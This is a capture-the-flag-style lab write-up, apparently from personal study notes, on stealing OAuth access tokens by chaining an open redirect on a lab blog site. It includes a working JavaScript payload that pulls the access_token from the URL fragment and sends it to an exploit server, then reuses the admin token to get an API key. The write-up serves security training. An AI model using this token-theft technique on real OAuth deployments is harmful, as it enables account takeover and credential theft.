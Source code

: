 # Stealing OAuth access tokens via an open redirect

**Date:** 09, August, 2021

**Author:** Dhilip Sanjay S

---
## Task 

- This lab uses an OAuth service to allow users to log in with their social media account.

- Flawed validation by the OAuth service makes it possible for an attacker to leak **access tokens** to arbitrary pages on the client application.

- To solve the lab, identify an open redirect on the blog website and use this to steal an access token for the admin user's account.

- Use the access token to obtain the **admin's API key** and submit the solution using the button provided in the lab banner.

- **Note:** You cannot access the admin's API key by simply logging in to their account on the client application.

- The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.

- You can log in via your own social media account using the following credentials: `wiener:peter`.

---

## Solution

### API Key endpoint

- Before sending the payload to the admin, we need to find out the end point in the OAuth server which gives the API key.
- On capturing the requests in Burp, we can find that `/me` end point of the OAuth server gives the API key:

![API Key](../Images/Lab4-APIkey.png)


### Finding Open redirect

{% hint style="info" %}
**Note:** These can be tried to check Flawed Redirection URI.

1. Replace with the exploit server's URL.
    - Error: `redirect_uri_mismatch`

2. Add the exploit server's URL as the second `redirect_uri`:
    - Error: `redirect_uri parameter must not be provided twice`
{% endhint %}

- Check the blog posts for open redirection.
- On clicking next, there is an GET request made to `/post/next?path=/post?postId=8`.
- Replace the path variable to the exploit site: `/post/next?path=https://exploit-acae1f131edfaacd80c50e6001d800ff.web-security-academy.net/`

- We have an Open Redirect on the Blog site. 

### Delivering the exploit

- File at `/exploit/` endpoint. We need to extract eh token from the URL parameter.

```html
<script>
const urlSearchParams = new URLSearchParams(window.location.hash.substr(1));
const token = urlSearchParams.get('access_token');
if(token)
window.location='/?'+ token;
else{
window.location = "https://oauth-ac501fb51e75aa5a804f0e74022b0046.web-security-academy.net/auth?client_id=cp42ogp10dybhn65r1rl6&redirect_uri=https://ac461f041eeeaa2b80930e3b000b00f9.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-acae1f131edfaacd80c50e6001d800ff.web-security-academy.net/exploit&response_type=token&nonce=1909767560&scope=openid%20profile%20email"
}
</script>
```

{% hint style="info" %}
- Initially I tried with iframe and the script. But it didn't work. Only if the URL has access_token, then the conversion to `/?` must take place.
- Instead one can make use of ngrok.
{% endhint %}


### Access Token

- We get the access token in the logs of the exploit server.

![Access Token](../Images/Lab4-AccessToken.png)

### API Key

- Now in the OAuth flow - `/me` request, replace the **Bearer** token with admin's token.
- You'll get the API key. Submit it to solve the lab!

![Access Token](../Images/Lab4-solved.png)